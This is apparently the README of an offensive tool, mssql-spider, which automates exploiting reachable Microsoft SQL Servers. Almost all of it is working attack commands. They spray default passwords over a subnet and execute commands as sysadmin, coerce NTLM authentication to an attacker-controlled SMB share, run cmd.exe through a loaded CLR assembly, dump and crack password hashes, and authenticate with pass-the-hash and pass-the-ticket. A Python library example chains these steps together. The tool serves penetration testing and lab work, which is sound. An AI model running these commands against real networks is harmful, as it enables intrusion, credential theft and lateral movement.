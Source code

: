# mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that discovers and exploits as many Microsoft SQL Servers as it can reach by crawling linked instances and abusing user impersonation.
For example, it can solve the [OSEP](https://www.offensive-security.com/pen300-osep/) Lab Challenge 2 automatically.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/xforcered/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

If you want the latest features replace `@main` with `@dev`.

# Usage

Starting from just network access without credentials (classic network pentest), spray known default passwords, abuse user impersonation or linked instances to reach additional servers and execute `whoami` on all servers where you gained *sysadmin* access:

~~~ bash
mapcidr -cidr 192.168.178.0/24 | mssql-ping | tee ./instances.json | mssql-spray passwords -c ./assets/default-credentials.txt | tee ./logins.json | mssql-spider -x 'whoami /all'
~~~

Starting with domain credentials, fetch SPNs of MSSQL servers from BloodHounds database and coerce NTLM authentication from all reachable servers with `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-discover bloodhound | mssql-ping | tee ./instances.json | mssql-spider -d corp.local -u jdoe -p 'passw0rd' --sysinfo -c '\\192.168.178.128\harvest'
~~~

All commands switch to JSON input or output if they are used as part of a pipeline.
You can override this behavior with `--no-json-input` / `--no-json-output`.

## Advanced Features

Load and execute a .NET assembly as *sysadmin*.
The first argument is the path to the DLL.
The second argument is the name of the function to call.
All following arguments are passed to the function as `SqlString`.
The C# code for an exemplary DLL can be found at [SharpProcedure.cs](./extras/SharpProcedure.cs).

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local --exec-clr ./SharpProcedure.dll Run cmd.exe '/c echo %USERNAME%'
~~~

Dump secrets and crack password hashes of database logins with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local --dump-hashes ./hashes.txt --dump-jobs --dump-autologon
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

Post-process the JSON output with `jq`.

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local -x 'whoami /priv' | jq -r 'select(.pwned==true and .result!=null)'
~~~

## Authentication

As local database user.

~~~ bash
mssql-spider -u sa -p 'passw0rd' -t db01.corp.local
~~~

As local windows user.

~~~ bash
mssql-spider -w -u administrator -p 'passw0rd' -t db01.corp.local
~~~

As domain user via NTLM and a password.

~~~ bash
mssql-spider -d corp.local -u jdoe -p 'passw0rd' -t db01.corp.local
~~~

As domain user via NTLM *Pass the Hash*.

~~~ bash
mssql-spider -d corp.local -u jdoe -H b9f917853e3dbf6e6831ecce60725930 -t db01.corp.local
~~~

As domain user via Kerberos *Overpass the Key*.

~~~ bash
mssql-spider -d corp.local -u jdoe -H b9f917853e3dbf6e6831ecce60725930 -k -t db01.corp.local
~~~

As domain user via Kerberos *Pass the Key*.

~~~ bash
mssql-spider -d corp.local -u jdoe -a c4c283276339e2d6b390eb5a11d419c9 -k -t db01.corp.local
~~~

As domain user via Kerberos *Pass the Ticket*.

~~~ bash
export KRB5CCNAME=./jdoe.ccache
mssql-spider -k -t db01.corp.local
~~~

# Library Usage

~~~ python
from mssqlmap.client import Client
from mssqlmap.connection import Connection
from mssqlmap.modules.dump import HashDumper
from mssqlmap.modules.exec import CmdShellExecutor
from mssqlmap.modules.impersonated_user import ImpersonationSpider
from mssqlmap.modules.linked_instance import LinkSpider

with Client(Connection(host='db01.corp.local', username='sa', password='passw0rd')) as client:
    for child, module, status in client.spider([ImpersonationSpider(), LinkSpider()]):
        print(child, module, status)
        if status in ('failed', 'denied', 'repeated'):
            continue
        for module, result in child.invoke([CmdShellExecutor('whoami /all'), HashDumper('./hashes.txt')]):
            print(child, module, result)
~~~

# Prevention and Detection

See [github.com/skahwah/sqlrecon/wiki](https://github.com/xforcered/SQLRecon/wiki/8.-Prevention,-Detection-and-Mitigation-Guidance).
